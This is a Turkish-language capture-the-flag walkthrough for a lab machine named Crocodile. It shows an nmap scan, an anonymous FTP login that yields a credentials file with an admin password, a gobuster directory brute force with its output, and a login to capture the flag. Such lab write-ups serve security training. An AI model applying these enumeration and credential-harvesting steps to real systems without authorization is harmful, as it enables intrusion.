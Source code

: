 ---
---

# Crocodile

!!! info "Target IP Address"

    10.129.39.65

Hedef makine için Nmap taraması gerçekleştir:

```bash
sudo nmap 10.129.39.65 -p 21 -sV
```

```text title="Output" hl_lines="6 7"
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-21 23:37 +03
Nmap scan report for 10.129.39.65
Host is up (0.38s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.34 seconds
```

Hedef makineye FTP bağlantısı gerçekleştir ve `anonymous` kullanıcısı olarak giriş yap:

```bash
ftp 10.129.39.65
```

FTP bağlantısı kurulduktan sonra `allowed.userlist` ve `allowed.userlist.passwd` dosyalarını sisteme indir.

Dosya içeriklerini görüntülersek `admin` kullanıcısının parolasını (`rKXM59ESxesUFHAd`) elde edebiliriz.

Gobuster ile dizin kaba kuvveti gerçekleştir:

```bash
gobuster dir -u 10.129.39.65 -x php -w /usr/share/dirb/wordlists/common.txt
```

```text title="Output" hl_lines="29"
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.39.65
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirb/wordlists/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 276]
/.hta.php             (Status: 403) [Size: 276]
/.htaccess            (Status: 403) [Size: 276]
/.htaccess.php        (Status: 403) [Size: 276]
/.htpasswd            (Status: 403) [Size: 276]
/.htpasswd.php        (Status: 403) [Size: 276]
/assets               (Status: 301) [Size: 311] [--> http://10.129.39.65/assets/]
/config.php           (Status: 200) [Size: 0]
/css                  (Status: 301) [Size: 308] [--> http://10.129.39.65/css/]
/dashboard            (Status: 301) [Size: 314] [--> http://10.129.39.65/dashboard/]
/fonts                (Status: 301) [Size: 310] [--> http://10.129.39.65/fonts/]
/index.html           (Status: 200) [Size: 58565]
/js                   (Status: 301) [Size: 307] [--> http://10.129.39.65/js/]
/login.php            (Status: 200) [Size: 1577]
/logout.php           (Status: 302) [Size: 0] [--> login.php]

...SNIP...
```

Elde edilen tüm bilgileri kullanarak [http://10.129.39.65/login.php](http://10.129.39.65/login.php) adresindeki Login formunu doldur ve bayrağı ele geçir.

